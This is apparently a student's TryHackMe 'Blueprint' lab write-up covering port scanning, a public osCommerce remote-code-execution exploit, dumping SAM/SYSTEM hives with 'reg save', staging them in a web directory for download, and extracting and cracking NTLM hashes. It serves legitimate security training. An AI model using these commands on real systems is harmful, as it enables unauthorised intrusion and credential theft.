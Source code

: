 ## TryHackMe - Blueprint Methodology

This is the attack methodology I used for TryHackMe's Blueprint box.
I have based this document on the Intrusion Kill Chain by Lockheed Martin:
Reconnaissance > Weaponization > Delivery > Exploitation > Installation > Command & Control > Actions on Objectve

---
### Environment
#### Operating System
Latest kali-VM rolling update
#### Tools
Python scripts

### Methodology
#### Objectives/Flags
 "Lab" user NTML hash decrypted and root.txt
#### Reconnaissance
First I checked for open ports using a basic nmap scan
```bash
nmap -t4 <TargetIP>
  PORT      STATE    SERVICE
  80/tcp    open     http
  135/tcp   open     msrpc
  139/tcp   open     netbios-ssn
  443/tcp   open     https
  445/tcp   open     microsoft-ds
  512/tcp   filtered exec
  1152/tcp  filtered winpoplanmess
  1875/tcp  filtered westell-stats
  3306/tcp  open     mysql
  4662/tcp  filtered edonkey
  7741/tcp  filtered scriptview
  8080/tcp  open     http-proxy
  9010/tcp  filtered sdr
  20005/tcp filtered btx
  26214/tcp filtered unknown
  27000/tcp filtered flexlm0
  49152/tcp open     unknown
  49153/tcp open     unknown
  49154/tcp open     unknown
  49158/tcp open     unknown
  49159/tcp open     unknown
  49160/tcp open     unknown
```
I could see some HTTP open ports and decided to see what was accessible
```
http://<TargetIP>:8080/
  http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
I could determine the framework being used for the commerce page was oscommerce-2.3.4. Using this information I visited Exploit-DB to see what was available.
```
https://www.exploit-db.com/exploits/50128
```
#### Exploitation
Using the remote-code-execution exploit from the DB, the target was attacked
```
python 50128.py http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
Once the attack was successful, I now had RCE shell access into the target.

#### Actions on Objective
I started by trying to determine the nature of the host and explore it's file directories
```
whoami
  nt autheority\system

DIR C:\users
  Administrator
    C:\users\Administrator\Desktop\root.txt.txt
      more C:\users\Administrator\Desktop\root.txt.txt
        THM{*}
  DefaultAppPool
  Lab
```
The file-system was Windows and exploring userfiles I happend to come accross my first objective ```root.txt.txt```. According to my mentor the filename was done this way to obfuscate it from broad-searches.
My next objective was to locate and extract the NTML hash of the "Lab" user.

I must admit I didn't know what NTML was or where it was found however I had a reasonable understanding through hack-sims that this was going to be a hashed password found somewhere on the system. After some googling I was able to understand that this hash was most likley going to be located in the Windows "SAM" file generally located at ```C:\Windows\system32\config\SAM```. (source: https://security.stackexchange.com/questions/113295/location-of-password-hashes-on-a-windows-local-machine)
```
DIR C:\Windows\system32\config\
```
I could see that the file existed on the system and my goal was to now try and exfiltrate this file/data out of the target to my local machine. I had a lot of trial and error trying to get at this file. Various failures included; printing it's contents, copying it to the visible HTTP directory, Uploading it to a local-http/ftp server.
Eventually I stubled upon a page which explained how this data could be exported from it's registry key. (source: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)
```
reg save hklm\system system
reg save hklm\sam sam
```
With the data exported out of the system-files I could now move them around without any system-protection. I moved these files to the visible HTTP directory.
```
copy <missing> http://<TargetIP>:8080/oscommerce-2.3.4/docs/
```
From my localhost I was able to save these files. My next step was to dump the hashes out of the files. Using the website I had found earlier I had to find a tool that was going to assit me.
```
python pwdump.py /home/kali/tools/TryHackMe/Blueprint/system /home/kali/tools/TryHackMe/Blueprint/sam
  Administrator:500:<hash>:<hash>:::
  Guest:501:<hash>:<hash>:::
  Lab:1000:<hash>:<hash>:::
```
Success, I've got the hash of the "Lab" user and now needed to decrypt this. I spent some time trying to mess with HashCat to crack it but after some more googling I was directed to Crackstation.
```
https://crackstation.net/
   Insert <hash> -> crack
     <password>
```
I spared my system it's resources and was able to instantly receive the cleartext password.

---
### After-action
#### What I've learned
This was the first "real" box that I've had a go at and had a blast from the whole experience. My mentor had helped me connect the dots on recconaissance and exploitaion through finding online resources/code. Once I was in, a majority of my frustrations was trying to understand what NTML was and more specifically how I was going to extract that information to my localhost. Lastly why burn the computing power when an online service can crack passwords for you?
#### What I would've done differently
Given that this was my first box, I was a bit messy with what I was actually doing on the target Machine. I had rebooted it by attempting to run arbitrary files and possibly executed programs in trial and error.
I definitely would like to record what actions I had taken (including timestamps?) and what failures I had run into for posterity/documenation.
Lastly, I should have spent the extra effort in removing the extracted system files from the export location and even the visible HTTP directory to reduce my footprint.
